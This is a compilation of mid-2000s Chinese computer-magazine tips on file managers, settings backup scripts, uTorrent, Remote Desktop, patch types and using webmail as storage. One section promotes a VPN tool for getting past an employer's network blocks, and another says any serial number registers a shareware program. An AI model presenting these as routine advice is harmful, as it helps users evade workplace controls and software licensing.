下载地址:http://www.newhua.com/cfan/200521/xplorer2_lite.zip
目前为止三位选手中功能最强大的一款，在安装时还能选择简体中文语言文件（即 “Chinese Simp” 选项）。

1.  专业的重命名
    TC 具有强大的重命名功能，xplorer2 的此项功能也毫不逊色。比如从数码相机下载照片时，一般都新建一个能表述照片主题的文件夹保存照片，但照片都是以 img001、img002……命名，管理不方便。这时可以使用 xplorer2 来批量更名，在程序窗口用 Shift 键选中所有需要更名的文件，单击“文件/批量更名”，在弹出窗口中单击“特殊符号”下拉列表选择“所在目录”和“自动计数器”命名模板（软件还内置很多模板且可以重复使用），单击“预览”就可以看到结果，确认无误后单击“重命名”即可将所有照片以“文件夹名+序号”更名。

2.  精确的同步功能
    与之对应的是 TC 的文件夹比较功能，方便比较前后备份文件，现在来试试 xplorer2 是不是也能胜任。为方便备份重要文档，笔者会定期将指定文件夹中的所有文件备份到移动硬盘，但有时上次备份后新增的文件有很多，为不遗漏文件，只好将所有文件重新复制一遍。xplorer2 解决了我的烦恼，启动 xplorer2 后依次打开前后备份的文件夹，单击“选定→比较窗口内容差异向导”，按提示选择比较条件，单击“确定”。就能迅速在程序左右窗口看到没有备份的文件，只要将这些文件用鼠标拖到备份文件夹即可。

评审认定:xplorer2 的大部分功能与 TC 相当，而且对个人用户免费，值得推荐！
（平淡）

## 我去重庆看美女——网络帮你熟悉新环境

笔者有不少来自重庆的网友。关于重庆这座城市，他们跟我聊得最多的不是那里的火锅，而是那里的美女！这帮朋友，整天在我面前念叨“到了重庆才知道结婚太早”，搞得我心里痒痒的。正好最近休假，一向以超级路痴自居的笔者终于鼓起勇气亲自去重庆“考察”一番。于是，一场惊心动魄的“探花”之旅开始了……



## 问路，不如问地图搜索——百度地图搜索上场

通过卫星云图看了下重庆，笔者的心早已经被那里的美女吸引了。但到那儿能否看到美女我还不知道呢，而且还得了解一下重庆市区的街道、建筑等情况，要不去了也是瞎转。这时候我想到了新浪的 iAsk 和百度刚刚发布不久的地图搜索。
1. 重庆哪有美女看
重庆那么大，到底哪是看美女的最佳地点呢？大家可以去搜索引擎里搜一下，不过笔者推荐大家去 iAsk 站点上问一下，毕竟网友直接提供的信息是最准确的。

## 拒绝重复劳动！把设置打包带走

“21世纪什么最贵？人才！”黎叔如是说。那系统中什么最宝贵呢？可能就是那些系统及软件在日常使用中所积累的设置了。几乎所有软件都有配置文件，它保存着我们平时的使用习惯，而且很多参数还是日积月累形成的（如输入法中词的顺序和自造词等）。因此，在新机上安装软件（或在本机重装系统再次安装软件）时，如果能把这些配置文件提取出来并转移到新机（或覆盖到本机），就能很快地回到熟悉的环境，无需再次执行重复配置过程。下面笔者就介绍常见软件配置文件的备份、转移和还原。

### 系统中的免费午餐:文件和设置转移向导

Windows XP中自带了一个称为“文件和设置转移向导”的工具，它可以帮助我们把原来计算机上的数据文件、系统设置、个人设置等方便地转移到新的计算机中，从而避免重复进行在原来计算机上已进行过的设置，如浏览器和邮件客户端设置、文件夹和任务栏选项、个人显示属性等。单击“开始→所有程序→附件→系统工具→文件和设置转移向导”，就可以打开这个工具了。

1.  开始装箱打包
    启动程序后，按向导提示选择“旧计算机”，然后选择“其他”并确定保存位置（如果是转移到其他机器上，还可以选择可移动媒体如优盘、移动硬盘等），接着在弹出的转移项目窗口选择“只包括设置”，同时勾选“单击下一步时由我来选择一个自定义文件和设置列表”。在弹出窗口按提示添加或删除备份组件，最后向导开始收集文件和设置，收集完成后向导会自动将配置文件保存在刚才指定的位置。

    **小提示**
    备份前应确定当前系统及相关程序的设置已经是最优，同时关闭所有打开的程序和窗口。

2.  取出打包的设置
    在需要应用原来设置的计算机上启动向导后，选择“新计算机”，然后选择“我不需要向导磁盘，我已经从旧计算机收集了文件和配置”，接着设定好保存配置文件的文件夹，向导就会开始转移先前备份好的配置文件到新计算机上，完成后注销当前用户，就可完成文件和设置转移工作。

    **小提示**
    其他Windows系统并没有这个向导工具，可以使用Windows XP CD光盘启动“文件和设置转移向导”，运行安装光盘的“Support\Tools\Fastwiz.exe”启动向导。

### 享受全面备份:使用专业工具

Windows“文件和设置转移向导”虽然无需另外安装，但是其他操作系统并没有这个工具，而且可以备份的设置也很有限，而使用更专业的备份工具可以弥补这个缺点，比如BackRex Expert Backup（未注册版本有部分备份项目受限制）。

| BackRex Expert Backup 小档案 |
| --- |
| 软件版本: 2.5 |
| 软件大小: 656KB |
| 软件性质: 共享软件 |
| 适用平台: Windows 98/2000/XP |
| 下载地址: http://www.onlinedown.net/soft/6386.htm |

安装后，运行时也同样是一个向导的界面，不过向导中可以勾选的备份项却多了很多，根据提示选择“Backup”（备份）或者“Restore”（恢复），选择相应备份位置及项目即可。

### 自力更生:软件自带的备份功能

备份工具可以备份的系统设置很多，但软件设置很少。其实很多软件本身就自带备份/还原组件，比如Office，单击“开始→所有程序→Microsoft Office工具→用户设置保存向导”，启动向导后选择“保存本机的设置”，然后选择保存位置，向导最后会生成一个类似“新建设置文件.OPS”的配置文件。恢复时则选择“将原先保存的设置恢复到应用到本机上”并选择这个备份文件即可。类似软件还有WinRAR，选择菜单“选项→导入/导出→导出设置到文件”，WinRAR就会在其安装目录中生成一个“Settings.reg”的注册表文件。恢复时单击“选项→导入/导出→从文件导入设置”并选择“Settings.reg”即可。

### 完全DIY:手动备份我在行

除备份工具和软件自带的功能外，还可以手动导出/导入程序的配置文件，一般软件配置文件大多保存在安装目录下的DAT、INI文件（或相应的注册表键值）中。只要将这些配置文件提取，恢复时再复制并覆盖同名文件（或导入注册表文件）即可。

1.  配置保存在DAT、INI文件
    这类软件有很多，如FlashFXP，备份时提取其安装目录下所有DAT文件（保存了FTP站点、用户、密码等信息）和FlashFXP.ini（保存了FlashFXP的设置），恢复时用备份文件覆盖同名文件即可。

2.  配置保存在注册表键值
    大部分软件的配置文件都保存在注册表中，只不过有些软件配置键值比较多（不容易导出）而已。比如Outlook Express，注册表的[HKEY_CURRENT_USER\Software\Microsoft\Internet Account Manager\Accounts\]（保存的是OE的账户信息）、[HKEY_CURRENT_USER\Identities\{xx...xxx}\Software\Microsoft\Outlook Express\5.0\Rules]（保存的是OE的邮件规则），只要将这些键值导出/导入即可。

    **小提示**
    有时仅仅导出配置文件还不够，应根据不同软件导出其他的文件，如FlashGet安装目录下的Default.jcd（保存下载文件的数据库）、Foxmail安装目录下的AntiSpam（保存贝叶斯等垃圾邮件过滤规则）。

### 3. 打造自动化备份及恢复脚本

在了解了软件配置保存原理后，我们就能很轻松地通过批处理制作一个备份/恢复脚本了，这样每次在重装系统和常用软件后，可以一键恢复软件设置。以FlashFXP为例，代码中的路径请根据实际安装路径修改（在“记事本”中保存为BAT文件）：

备份脚本：
```
@echo off
copy d:\program files\flashfxp\*.dat d:\backup\
copy d:\program files\flashfxp\flashfxp.ini d:\backup\
exit
```

恢复脚本：
```
@echo off
copy /y d:\backup\*.* d:\program files\flashfxp\
exit
```

## 小块头也有大智慧！96KB的高速BT客户端

Bitcomet有多大？2881KB（0.60版）；比特精灵有多大？比Bitcomet更大，5047KB（3.1.0.077版）。那是不是软件体积越大，功能就越强大呢？只能说，大多数时候确实如此，但也有例外，比如今天要给大家带来的BT下载软件彻底颠覆了这种理论。它只有96KB，但功能一点儿不缺，甚至在有些方面（如计划流量功能）更胜以功能全面著称的比特精灵一筹，而下载速度更是不含糊，经笔者测试发现，它与号称“内网下载速度之王”的Bitcomet的下载速度相当，但对系统资源的占用却小很多。你现在一定迫切想知道它到底是谁了，它就是uTorrent！

## uTorrent小档案

| uTorrent小档案 | |
| --- | --- |
| 软件版本 | 1.1.6 |
| 软件大小 | 96KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 98/2000/XP/2003 |
| 下载地址 | http://www.utorrent.com/download/1.1.6/utorrent.exe |
| 软件备注 | uTorrent支持简体中文，但截止发稿时，最新版本1.1.6的语言文件还没发布（这个软件更新速度很快，平时每周更新一次），需要中文版的朋友可以在http://www.utorrent.com/download.php下载到最新版本的uTorrent及其语言文件。 |

无需安装或解压，uTorrent下载后直接就能运行。其主界面简洁大方，和Bitcomet有几分神似，但值得称道的是uTorrent没有加入任何广告！没有什么软件的默认设置是能让所有人完全满意的，所以在开始使用前我们还得根据自己的需要做一些必要设置。

## 小是小，必要设置不能少

1.  让uTorrent认识BT种子
    首次运行时可能会询问你是否要关联Torrent文件（即BT种子），选择关联后不要再随意移动uTorrent.exe的位置，否则在网页中点击BT种子的链接时就不能自动调用uTorrent下载了。此外，如果今后Torrent文件的关联被其他软件破坏了，也可以通过菜单“Options→Preferences”（选项→参数选择）调出Settings（设置）窗口，然后选择左侧的“General Options”标签，在右侧的“Windows Integration”（Windows整合）栏中点击“Associate with .torrent files”（与.torrent类型的文件建立关联）按钮（见图）。

2.  管好下载文件位置
    仍是在刚才打开的Settings窗口中，选择左侧“Folder Options”（文件夹选项）标签，在右侧的“Location of Downloaded Files”中可以设置新下载文件的存放位置（勾选“Put new downloads in”并设置路径）以及下载完成后需要移动到的位置（勾选“Move completed downloads to”并设置路径），如果保持不勾选则每次建立新任务时都会询问保存位置。另外，种子文件也应该妥善保管起来，在下方的“Storage For Torrent Files”中就分别提供了种子的保存位置和任务完成后要移动到的位置，可以根据需要进行设置。

3.  突破网络阻碍
    在“Network Options”（网络选项）中，可以通过“Port used for incoming connections”设置BT下载时的监听端口，如果使用路由上网，那么一定记得要在路由管理的转发设置中将监听端口的TCP连接映射一下。如果你无权设置路由（如在网吧等场所），那么一定要确保“Enable UPnP port mapping（Windows XP or later only）”（启用UPnP端口映射），在路由器支持UPnP功能的情况下，内网用户可以得到更高的下载速度。



4.  保护你的硬盘
    选择“Torrent Options”（种子选项）标签，然后勾选右侧“Other Settings”（其他设置）中的“Pre-allocate disk space”（预分配硬盘空间），这样可以避免因BT下载造成的大量硬盘碎片。另外，在“Advanced Options”（高级选项）标签中，适当调大“Size of write queue (KB)”（写入块的大小）也能够起到保护硬盘的作用。

## 这才叫专业，高手玩转uTorrent

1.  张弛有道，流量也玩限行控制
    白天经常需要上网聊天、听音乐等，开着BT下载感觉网页打开速度奇慢，可以用任务自带的限制下载上传速度功能，但到了晚上挂机下载时又要调回去，实在有些不便。uTorrent的设置可谓张弛有道，提供了分日期、分时段的流量控制功能。在Settings设置窗口中，选择左侧“Scheduler”（计划）标签，在右侧勾选“Enable Scheduler”（启用计划），然后其下的一大块绿色方块就是用来设置流量的控制按钮，纵向分别代表周一到周日，而横向则代表0点到23点的时段，将指针悬停在任意的方块上，其下方就会显示出对应的日期和时间段，小方块每次点击都会改变一次状态，共分三种：深绿（默认）代表全速下载，浅绿代表控制流量，而白色则代表关闭下载。按此方法将8点至22点设置为浅绿，并在“Scheduler Settings”（任务设置）中分别设置好受限流量的最高上传速度（Limited Upload rate）及下载速度（Limited Download rate），点击OK按钮让设置生效，现在白天看网页的带宽就不会都被BT给霸占了。

2.  备份绿色软件的配置文件
    uTorrent只有一个主程序文件，运行后在其目录下也没有生成任何配置文件，那么uTorrent的配置信息保存到哪里去了呢？难道在注册表中？你可以在C:\Documents and Settings\用户名\Application Data\uTorrent下找到一个名为settings.dat的文件，它就是uTorrent的配置文件。在设置好uTorrent的各项参数后，可以将uTorrent.exe和settings.dat装进闪存盘里（两个文件放在同一目录下），这样就制作了一张能够即插即用的具有BT下载工具盘，因为uTorrent在寻找系统目录里的配置文件前会优先找一下程序所在目录中有没有配置文件，如果有则使用所在目录中的。

3.  找出隐藏的IP筛选功能
    虽然uTorrent在设置中没有提到，但它确实支持IP筛选，将eMule兼容格式的ipfilter.dat（在各类BT下载软件的安装目录中也能找到这个文件）放到uTorrent.exe所在目录下，重启程序即可生效。

## 想上就上 用者无罪！

经常在单位上网的朋友可能会遇到这样的窘况，想去某个网站下载点游戏或电影，却发现该网站已被单位网管屏蔽了，想用QQ和朋友聊聊天，竟然也被无情的网管所封杀。使用代理服务器既不稳定也不安全，而且经常失效，Google Secure Access（简称GSA）工具能帮你解决这个烦恼，让我们想上就上。

## GSA突破限制，就这么简单

从http://wifi.google.com/download.html下载该软件，安装后运行（目前仅支持Windows 2000/XP），这时就会在任务栏出现一个灰色的GSA图标，接着右击该图标，在菜单中选择“Connect now”选项。稍等片刻，你就会发现“GSA”图标变成绿色，并提示“Secure connection established”。此外，细心的用户还会发现任务栏中多出一个名为“vpn.google.com”的网卡图标，这就是“GSA”工具创建的连接Google VPN网络的VPN客户端连接。这样一来，用户就连接到Google VPN网络中了，成为该网络中的一个成员。被网管屏蔽的网站可以访问了，QQ也可以使用了，我想看的电影也可以BT下载了。

## 超级右键工具让目录飞起来！

你有没有暴风影音的安装文件？发给我吧！MM的要求总是让人难以拒绝，但当按下QQ窗口的“传文件”按钮时，便又让人心烦起来……暴风影音的安装文件，好像放在F:\store\software\media\player\目录下，又得一阵鼠标狂点才能让文件选择框到达目的地。有什么方法可以解决问题？方法倒是不少，比如运行gpedit.msc打开“组策略编辑器”，展开“本地计算机”策略→用户配置→管理模板→Windows组件→Windows资源管理器→通用打开文件对话框，在右侧“位置栏中显示的项目”中加入常用路径，或安装自己编写几个路径的脚本，但它们都不便于管理，在添加新的常用路径时会感到非常繁琐，你需要Folder Pilot！Folder Pilot小档案

软件大小:1.7MB 软件性质:共享软件 适用平台:Windows 9x/2000/XP 下载地址:http://www.onlinedown.net/soft/42756.htm 汉化补丁:http://www.onlinedown.net/soft/42755.htm

下载安装原版程序后，再安装汉化补丁，注意此汉化补丁在执行后会弹出DUDU下载器的安装界面，并且在安装过程中会出现3721上网助手的安装选项，用户请根据需要决定是否安装。汉化补丁安装完成后，打开“资源管理器”并随意打开一个目录，右击窗口空白处选择“Folder Pilot→Edit folders...”，在弹出界面中点击右上角的“关于”按钮，点击“输入注册码”，在“许可”及“注册码”处输入需要注册的名字及注册码，经测试发现可以用任意名字和注册码完成注册。

软件使用很简单，在刚才用“Edit folders...”打开的配置界面中，通过左侧边栏的“添加项目→添加文件夹”就能将常用的目录添加到右键菜单中，另外，可以把不同类型的目录分别归类起来，比如“Works”、“Download”等，只需点击“新建组”然后将添加好的目录拖动进去即可。为了让目录用途更醒目，可右击目录或目录组，选择“编辑”，在弹出的“编辑项目”框中能够对所选项目进行重命名、重设定位以及更改图标（选一个相符的图标可比文字标志醒目多了）。除这种添加方式外，直接在“资源管理器”中打开需要添加的目录，然后右击空白处选择“Folder Pilot→Add 当前目录名”，就能将当前目录添加到右键菜单的目录列表中。添加完常用目录后，就可以试试成果了，再传文件弹出文件选择框时，轻松右击文件框内的空白处，选择“Folder Pilot→Download”，就已经跳转到下载目录下了。(Piny)

## 给系统壮胆，从此不登录也敢下载

本文关键其实就是要在系统启动时自动运行下载程序，并且进行预定下载任务，同时在下载过程中又要解决下载者长时间离开后机器的安全问题。软件正常工作是不太可能的了，那还有什么方法能够保证实现开机自动下载同时又保证安全呢？

## 让下载程序自觉开工

- 1. eMule(电骡) 测试用版本为v0.46c VeryCD Build0913，经测试eMule在默认设置下即可实现运行后自动继续下载任务。
- 2. Net Transport(影音传送带) 测试用版本为1.94.279，设置方法:在主界面中选择菜单“工具→选项”，在弹出的“选项”窗口中选择“系统”选项卡，勾选“程序开始运行即开始下载”。
- 3. FlashGet(网际快车) 测试用版本为1.71，设置方法:在主界面中选择菜单“工具→选项”，在弹出的“选项”窗口中选择“常规”选项卡，勾选“程序开始运行即开始下载”。
- 4. BitComet 测试用版本为0.60，设置方法:在主界面中选择菜单“选项→选项”，在弹出的“选项”窗口中选择“界面外观”标签，然后在右侧窗格中勾选“当BitComet启动时自动继续下载上传任务”。

小提示 有些下载程序(如Net Transport、FlashGet等)支持下载完成后自动关机，比如FlashGet只需在主界面中选择菜单“工具→完成后关机”即可，这样即使下载时你不在电脑旁也不用担心会浪费电了。

## 不可能实现的任务

很多朋友认为这次挑战任务实在太简单，于是CFan的投稿邮箱中一下子塞满了大家投来的各种方案，其中包括两个典型的“伪方案”。 1.添加计划任务 在“控制面板→任务计划”中添加新的计划任务，将下载程序设定为“计算机启动时”执行，经过测试发现在启动时执行的eMule、BitComet、FlashGet根本无法下载，Net Transport甚至无法正常启动。 2.注册为系统服务 用Resource Kit Tools中的instsrv.exe和srvany.exe将下载程序注册为系统服务，并设置启动状态为“自动”，可经过测试后也是同样不行，eMule无法下载、BitComet和FlashGet发生错误、Net Transport发生错误并自动关闭。 所以大家在寻找问题的解决方法时不能够想当然，而必须从实践中得真知。

## 旁门左道解决问题

看来不登录状况下要让这些常用的下载

### 1.登录没关系，我自动锁定

第一步:点击“开始→运行”，在运行框中输入“control userpasswords2”点击“确定”，在弹出的“用户账户”窗口中选择“用户”选项卡，取消“要使用本机，用户必须输入用户名和密码”的勾选，点击“确定”后按提示选择自动登录系统的账户并输入密码。

第二步:将需要开机自动下载的程序设置为随系统启动运行。BitComet本身在设置中提供了这个选项，只需在其“选项”窗口左侧选择“界面外观”标签，然后在右侧的“BitComet启动时”中勾选“当我登录Windows时自动启动BitComet”；而其他没有提供设置选项的下载程序，则可直接将其快捷方式拖入开始菜单的“启动”组里。

第三步:运行Regedit.exe打开“注册表编辑器”，找到[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]，在右侧窗格中右击，在弹出菜单中选择“新建→字符串值”，将其命名为“Lock”，然后双击它并在弹出框中将其值修改为“rundll32.exe user32.dll,LockWorkStation”(不含外侧中文引号，大小写敏感)。

### 2.远程桌面，在单位控制家中下载

家里的宽带是包月的，可是实际上只有下班后睡觉前那短短的几个小时才能上网，那大半的时间岂不是白白浪费了？如果硬盘够大，在单位的时候完全可以远程控制家中的电脑进行下载。

以下步骤以Windows XP为例，更详细的远程桌面使用技巧请参考本刊2005年第14期的《朋友有难“远程桌面”替你跑腿》。

第一步:在家里的电脑中右击“我的电脑”，选择“属性”，在弹出的“系统属性”窗口中选择“远程”选项卡，勾选“允许用户远程连接到此计算机”，记录下当前的IP(如果是路由上网则应映射好3389端口)。

第二步:在防火墙(包括Windows自带防火墙)中允许远程协助相关的连接。在单位的电脑上只需打开开始菜单中“程序→附件→通讯→远程桌面连接”，填写好家中的IP及管理员账户密码登录，远程运行下载工具即可。(愤怒的tester)

## 疑似冲击波再袭！幕后凶手到底是谁？

系统中的卡巴斯基到期了，听了朋友建议决定使用McAfee。朋友推荐7.1版本，可是明明有更新的8.0i版本为什么要装老版本呢？于是兴冲冲地卸载掉卡巴斯基装上了McAfee 8.0i。安装完重启后恶梦开始了……

## 惊现超强冲击波变种，无可查杀

重启后进入桌面竟然弹出数个错误提示框，“内存不可读写”、“explorer.exe错误”、“svchost.exe发生错误”。第一反应就是中了冲击波病毒，可是系统是Windows XP SP2啊！况且补丁也打全了，怎么还会中冲击波？将错误框逐一关闭后，却弹出了倒计时关机的对话框，桌面上的东西也全消失了，看着倒计时关机提示，这是冲击波的典型症状啊……

尝试重启进入了“带网络的安全模式”。从网上下载了最新版的冲击波病毒专杀工具，查了老半天结果却是“查到0病毒”，难道杀毒软件还没有收录这个病毒变种？在Google里搜索了一下也没有发现其他“受害者”，这时我才发现这并非病毒所致。

## 杀毒软件‘互殴’，殃及用户

出现故障前安装了McAfee 8.0i，杀毒软件应该在系统中安装了新的系统服务，而svchost.exe又恰好是系统服务的宿主程序，此时开始怀疑是McAfee在搞鬼了。运行services.msc打开“系统服务”窗口，将McAfee新增的几个系统服务的启动方式设置为“手动”(见图)，然后运行msconfig.exe打开“系统配置实用程序”，在“启动”选项卡中去除McAfee自启动项前的勾选(可以通过“命令”列中显示的路径来判断是否是McAfee的项)，重启后故障竟然神奇地解决了。很多软件的系统服务及程序安装目录的名称都是使用其公司名称的，比如McAfee的服务和程序目录名称中就包含其公司名“Network Associates”。

原来这是杀毒软件之间的冲突，很多杀毒软件(包括卡巴斯基、诺顿等)的卸载程序都不能完全清除其在系统中添加的虚拟设备驱动，所以就有可能和新装的杀毒软件在抢占底层控制权时产生冲突并导致系统崩溃，除用上文的方法禁用服务外，还可以在“设备管理器”中选择菜单“查看→显示隐藏的设备”，然后在“系统设备”分支中根据名称删除杀软留下的残骸。(AK47)

| 服务名称 | 显示名称 | 状态 |
| --- | --- | --- |
| McAfee Framework | McAfee Framework Service | 手动 |
| McAfee VirusScan Task Manager | McAfee VirusScan Task Manager | 手动 |
| McAfee VirusScan Task Scheduler | McAfee VirusScan Task Scheduler | 手动 |

## 补丁也玩分级制，GDR与QFE区别大公开

Windows系统补丁在大多数人看来都一样，只是修正的系统BUG不同罢了，可实际上补丁中包含的更新文件还分了级，目前微软发布的Windows更新主要包含两大类：一类叫做GDR(普通分发版本)，而另一类则叫做QFE(快速修补工程更新)。其中，GDR文件经过了大量严格的测试，稳定性很高;而对QFE所做的测试相对则要少一些，所以稳定性相对GDR版本要低一些。

### 1.“安全修补程序”与“修复程序”的区分

因此，微软的补丁包也同时分作两类：一类称为“安全修补程序”，这类补丁包中同时包含了GDR和QFE版本的更新文件，也就是两个副本，一般是微软在Windows出现严重的漏洞时发布的关键更新时采用。还有一类叫做“修复程序”，一般此种更新都是用在一些如“正版增值计划”需要正版验证才可下载的非关键更新中，仅包含了QFE版的更新文件。

### 2.同时包含两种版本的原因

那么为什么安全修补程序要包含两种版本的文件呢？如果你要在系统中安装修复程序，也就是说要安装QFE更新文件。然而当前系统中需要被替换的文件为GDR版，而且版本号要比补丁包中的QFE文件版本号高，那么就不能用补丁包中的QFE文件来替换，而需要用与当前GDR文件版本相同的QFE文件来修补。那么到哪里取得这个文件呢？其实这个QFE文件在你以前安装GDR版更新文件(就是当前系统中使用的文件)时就已经被同时复制到了你的硬盘中。这就是安全修补程序需要同时包含GDR和QFE更新文件，且两类文件版本号都相同的原因。

以名为WindowsXP-KB896688-x86-CHS.exe的安全修补程序为例来说明，该补丁包需要更新MSHTML.DLL这个文件。如果安装程序检测到系统中当前的MSHTML.DLL为GDR版时，则会用补丁包中GDR版的MSHTML.DLL(文件说明为xpsp_sp2_gdr.051004-1415)来进行更新，并且把QFE版的MSHTML.DLL复制到“%windir%\$hf_mig$”目录下。反之，如果安装程序检测到系统中当前的MSHTML.DLL为QFE版时，则会用补丁包中QFE版的MSHTML.DLL(文件说明为xpsp.051004-1419)来进行更新。虽然有GDR和QFE之分，但两个文件的版本号却都是6.00.2900.2769。

### 3.注册表的再次证明

同时在注册表中也可以发现这个特点。在我的系统中反映为两个注册表项：

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Updates\Windows XP\SP3\KB896688\Filelist\8]
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Updates\Windows XP\SP3\KB896688\Filelist\50]
```

两个项下的FileName字符串值都是“MSHTML.DLL”，而Location字符串值分别为“C:\WINDOWS\system32”和“c:\windows\$hf_mig$\KB896688\SP2QFE”，也就是分别存放GDR和QFE文件的位置。

### 4.不要轻易删除$hf_mig$

如果你在安装了GDR版的KB896688补丁之后，又试图安装一个需要把MSHTML.DLL更新为QFE版的修复程序。但是该修复程序中的MSHTML.DLL版本号比6.00.2900.2769要低，那么这时候更新程序就不会选取补丁包中的MSHTML.DLL来更新，而是到“%windir%\$hf_mig$”目录下去找之前预留的QFE版MSHTML.DLL来更新。所以说一般最好不要轻易删除Windows目录下的“$hf_mig$”目录，否则可能导致在安装新补丁后系统文件不匹配而导致兼容性故障。

(Aoouch.FreeStyle)

## 别闲着GB邮箱给我变网络硬盘

GB级邮箱(以下简称G邮)比比皆是，不过对大多数朋友来说，G邮或许只是个概念，平时只是用它来收发邮件，即使有时想用它来存储和传输大文件，但操作过程实在太麻烦：首先需要根据邮箱的最大附件体积，把要发送的大文件分割或者进行分卷压缩，然后打开OE或者Foxmail等邮件程序，新建邮件并放入附件，最后再一个个地发送出去。这里笔者给大家介绍一款利用G邮存储和共享文件的免费好工具——MailMagic，它不仅可以让普通的G邮具备网络硬盘功能来存储文件，而且可以利用G邮构建自己的网络共享空间，与别人分享自己的好东东，让你轻松玩转G邮。

**MailMagic小档案**
软件版本:1.3
软件大小:939KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.onlinedown.net/soft/40642.htm
软件备注:MailMagic提供有绿色版和安装版两种，其中安装版提供有“资源管理器”右键菜单快速上传文件和监视IE点击快速下载文件的功能，建议在电脑中安装使用，而绿色版(下载地址:http://www.mail-magic.com/Download.htm)则适合于复制到闪存盘中使用。

## 我的网络硬盘，如影随形

场景：我喜欢当天的工作当天完成，在单位没有完成的工作，下班后就需要在家里继续完成，以前都是通过电子邮件附件把工作文件发送到邮箱，回家后再收取邮件，小文件倒还可以，遇到大文件就比较麻烦了。不过现在有了MailMagic，就犹如把我的G邮变成了一块具备文件管理功能的网络硬盘，方便多了。

### 第一步：创建邮箱。

在单位运行MailMagic，单击菜单“邮箱→添加新邮箱”，弹出增加新邮箱向导，这里软件提供了两种方式来创建新邮箱，笔者建议使用“直接建立新邮箱(适合高级用户)”方式，这样更方便填写邮箱信息，单击“下一步”按钮，即可弹出新邮箱参数设置对话框，输入个人信息、邮箱服务器信息，其他信息中的“邮箱最大容量”和“附件最大容量”可以在该邮箱的注册页面中看到介绍，例如笔者使用的TOM邮箱容量为1.5GB，最大附件为15MB，注意“文件缺省每份分成”应设置为小于附件最大容量，建议设置为10MB以下。最后单击“增加新邮箱”按钮后关闭对话框，在MailMagic主界面左边即可看到邮箱名称。

### 第二步：上传文件。

选中邮箱名称，单击工具栏中的“上传”按钮，会弹出文件上传对话框，MailMagic的文件上传和下载采用了与网际快车类似的设计，很容易上手。首先在“文件名称”栏后面单击“...”按钮选择要上传的文件“工作进度.rar”(可同时选择多个文件上传)，然后在“发送邮箱”中单击“...”按钮选择发送邮箱，一般直接选择当前使用的邮箱即可，这样可以加快发送速度。而且MailMagic支持特快专递发送，不过有些邮件服务器的垃圾邮件拦截功能可能会将利用特快专递发送的邮件当作垃圾邮件处理，导致无法正常传输，一般不建议使用。最后单击“确定”按钮即可进行发送了，对于大文件，MailMagic会自动完成文件分割传输，单击“正在下载/上传”栏可以看到传输速度和进度等信息，而且当遇到数据传输错误时，它会自动重新传输，直到成功发送。

### 小提示

MailMagic还支持对邮箱中的文件使用目录结构进行管理，在邮箱名称上单击鼠标右键，选择“新建文件夹”并输入目录名称即可快速创建一个目录，在上传文件时可以选择上传到指定目录。

### 第三步：下载文件。

回到家后运行MailMagic，右击TOM邮箱名称，选择“同步邮箱文件”以刷新显示邮箱中新上传的工作文件，在右边的文件列表中就可以看到在单位上传的“工作进度.rar”文件，双击该文件或者选中文件后单击“下载”按钮，弹出下载对话框，MailMagic提供有POP3和WebMail两种下载方式，前者只能使用单线程下载，而后者可以进行多线程快速下载，不过MailMagic目前仅提供对Yahoo、Sina、163、126四种邮箱的WebMail支持，由于Gmail邮箱需要SSL支持，暂时在MailMagic中不能使用。最后选择好下载类别并设置“另存到”路径，单击“确认”按钮即可下载到指定路径了，而且我们可以像在FlashGet中那样，单击“已下载”栏对下载的文件进行分类管理。

### 小提示

在MailMagic窗口右侧的邮箱文件列表中，可以选择不再需要的文件，右击并选择“删除邮件文件”即可删除邮箱中的源文件，注意选择“删除文件图标”功能只是删除文件列表中的文件名称，并不会删除邮箱中的源文件。

## G邮变身下载服务器

场景：十一旅游拍摄的录像想发给好友们一起分享快乐，由于文件体积较大，通过邮箱发送太麻烦，通过QQ传输又太慢。最好的方法是放到网络上，让朋友们随时下载，可免费的大空间又很难找到。其实利用MailMagic就可以把你的G邮构建为一个免费的下载服务器，它采用一种称为共享码的技术对邮箱的账户、密码、文件等信息进行加密编码，你不必告诉好友关于邮箱的任何信息，只需要把共享码发送给好友，他们就可以通过MailMagic随时下载你上传到邮箱中的文件，很好的解决了邮箱共享的安全性问题。

### 第一步：制作共享码。

在MailMagic邮箱文件列表中选择你要共享的文件，单击工具栏中的“共享码”按钮，弹出制作对话框，这里也有两种共享方式，如果你的邮箱是前面介绍的四种WebMail邮箱之一，可以选择为“WebMail”，这样好友可以多人同时下载，如果是其他的邮箱，就要选择“POP3”方式了。“共享下载码”栏显示的字符串就是所谓的共享码了，单击“拷贝到剪贴板”按钮，然后通过QQ等聊天工具把共享码发给好友，或者直接单击“发送给好友”，输入好友邮箱地址发送邮件也可以。

### 小提示

在制作共享码时，我们还可以选择“增加HTML标签”选项，制作的共享码会自动添加超链接标签，这样我们就可以直接把字符串发布到论坛上，别人只要安装了MailMagic，就可以直接点击这个链接下载你共享的文件，更加方便。

### 第二步：下载共享文件。

当好友收到你发送的共享码后，在MailMagic中单击工具栏“下载”按钮，在下载对话框中的“使用共享下载码下载”栏中粘贴共享码，在上面立刻就能看到共享的文件名称、大小等信息，设置好下载存盘路径，单击“确认”按钮即可进行下载，而且从邮箱下载文件的速度非常快，例如笔者从TOM邮箱单线程下载的速度就可以达到430KB/s，达到我的网络极限。

## 系统中的“奇怪”文件

小菜最近发现一个奇怪现象，在许多文件夹中经常会看到一个名为 “Thumbs.db” 的文件，把它删除后，过一段时间又会自动出现，难道是病毒文件？不过使用杀毒软件对这个文件扫描却没有提示病毒，即便不是病毒，在一些图片文件夹中，一眼望去全是图片，出现这样一个文件，也感觉有些碍眼，但又不知道如何才能彻底删除，还是咨询一下大嘴吧！

### Thumbs.db 其实没啥用

大嘴笑着说，这可不是什么病毒文件，它是文件夹中的图片和视频文件缩略图缓存文件，作用是用来加快这些文件的缩略图预览速度的，不过从经验来看，这个文件的加速作用并不明显，反而体积会随着图片文件数量增多而不断“膨胀”。直接删除它是没有用的，下次以缩略图方式查看图片或视频文件时，它又会自动生成，要想彻底清除它，可以在“资源管理器”中单击菜单“工具→文件夹选项”，在“查看”选项卡中勾选“不缓存缩略图”选项，以后系统中就不会再生成新的 Thumbs.db 文件了，不过在系统中仍然存在许多以前产生的 Thumbs.db 文件，我们可以利用搜索功能将其“一网打尽”。

